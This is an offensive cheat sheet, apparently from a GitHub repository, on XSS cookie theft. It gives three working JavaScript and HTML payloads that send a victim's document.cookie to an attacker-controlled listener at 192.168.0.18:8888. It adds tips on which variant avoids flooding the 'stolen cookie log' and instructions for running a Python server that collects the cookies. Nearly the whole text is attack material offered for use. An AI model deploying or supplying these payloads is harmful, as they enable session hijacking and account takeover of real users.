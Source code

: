 # JavaScript

## Cookie Stealing
(Note: `HttpOnly` should not be enabled/present in cookie header)

* **Classic way**
```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

```
* **<img> Tag and Without the Infinite Loop**

This one works and will only steal the cookie once.
```javascript
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">

```
* **<img> Tag Instead of <script> Tags**
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log.
```javascript
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

```

## Run the Cookie Stealer Python Script
You'll need a place to capture the stolen cookies. [lnxg33k](https://github.com/lnxg33k) has written an excellent Python script called [XSS-cookie-stealer.py](). Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.
```bash
# Run script
python XSS-cookie-stealer.py

# The resulting output, at minimum, will be this
Started http server


```









